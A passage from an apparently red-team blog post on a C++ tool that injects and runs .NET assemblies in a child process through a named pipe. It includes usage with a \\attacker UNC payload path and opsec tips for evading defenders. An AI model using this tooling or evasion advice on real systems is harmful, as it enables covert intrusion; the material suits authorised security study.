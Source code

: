 ```cpp
					//if we we have arguments after the assembly then grab them
					if (bufString.find(delimiter) != std::string::npos)
					{
						arguments = bufString.substr(bufString.find(delimiter) + 1, bufString.size());
					}
					//if our arguments are blank then make them actually blank
					if (arguments == " ")
					{
						arguments = "";
					}
					//Load and execute
					loadAndExecute(base64DecodedProgram, base64Program.size(), arguments);
					//Reset our buffer, otherwise it will fail if the next message is shorter
					memset(buffer, '\0', sizeof(buffer));
				}
			}

			DisconnectNamedPipe(hPipe);
		}
	}
}
```

And that's pretty much it!

## Usage
You can find a copy of the code on my [Github](https://github.com/passthehashbrowns/execute-multiple-assemblies). Usage is pretty simple, as of now there are only two options. I plan to expand on this in the near future.

* The -p parameter denotes which local executable to launch and inject into
* If you include "block" as an argument then the child process will be launched with the PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON flag, so only Microsoft DLLs can be loaded into it. This is how Cobalt Strike's ```blockdll``` command works.
* After the program has launched it will prompt/wait for user input. You can provide input in the format: path-to-local-executable arguments

As mentioned earlier the path-to-local-executable only needs to be readable by the parent process. You can also load from a remote file share by simply passing in the UNC path, such as \\\attacker\seatbelt.exe. 

## Opsec considerations
* You'll still be loading the CLR into a process, so consider using a process that would normally load the CLR.
* I haven't implemented any AMSI/ETW bypasses (yet) so keep that in mind while blasting away.
* Take parent/child relationships into account here. If the blue team sees notepad.exe spawned by rundll32.exe, that is sure to raise some eyebrows.

## Disclaimer
This code is bad and should be treated as such, I'm still trying to get familiar with C++. I'm sure there are plenty of weird edge cases I haven't tested. Please feel free to submit pull requests with better solutions, or you can Tweet at me. Happy to fix (or try to fix) any bugs submitted.
